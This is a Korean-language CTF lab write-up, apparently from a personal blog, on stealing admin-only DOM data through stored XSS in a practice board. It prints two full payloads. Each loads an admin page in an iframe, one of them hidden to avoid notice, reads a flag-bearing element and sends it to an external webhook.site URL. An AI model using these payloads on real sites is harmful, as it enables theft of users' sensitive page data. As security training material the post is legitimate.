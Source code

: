 ```yaml
---
title: "Stealing DOM data via XSS (Same-Origin DOM Exfiltration)"
date: 2025-07-01
excerpt: "Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오 실습 기록으로, 게시판에 악성 HTML을 업로드해 피해 사용자가 열도록 유도하여 사용자가 모르게 DOM 내 민감 정보가 유출되도록 구성한 과정을 정리하였다."
layout: single
toc: true
toc_label: "Stealing DOM data via XSS"
toc_icon: "book"
toc_sticky: true
categories: [web]
tags: [web, xss, hacking]
header:
  teaser: /assets/web-screenshots/xss-dom-steal/stored-reflected-xss.png
  teaser_home_page: true
---
```


# 개요

이 페이지는 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.

공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.

---

# 문제 풀이 정리

## Steal Info

![취약점 있는 곳](/assets/web-screenshots/xss-dom-steal/steal1_post.png)

게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](/assets/web-screenshots/xss-dom-steal/target_html.png)

누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](/assets/web-screenshots/xss-dom-steal/target_card-text.png)

위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/web-screenshots/xss-dom-steal/steal1_payload.png)

이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](/assets/web-screenshots/xss-dom-steal/steal1_access_admin.png)

URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](/assets/web-screenshots/xss-dom-steal/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

## Steal Info 2

![타겟 할 곳](/assets/web-screenshots/xss-dom-steal/steal2_burp_suite.png)

위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/web-screenshots/xss-dom-steal/steal2_payload.png)

`iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 

이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

- 사용자가 직접 게시물 클릭 시:

![게시물 클릭](/assets/web-screenshots/xss-dom-steal/steal2_access.png)

게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](/assets/web-screenshots/xss-dom-steal/steal2_access_admin.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

> **결과:**

![플래그 획득](/assets/web-screenshots/xss-dom-steal/steal2_flag.png)

**이렇게 관리자 권한 없이 플래그를 획득하는 데 성공했다.**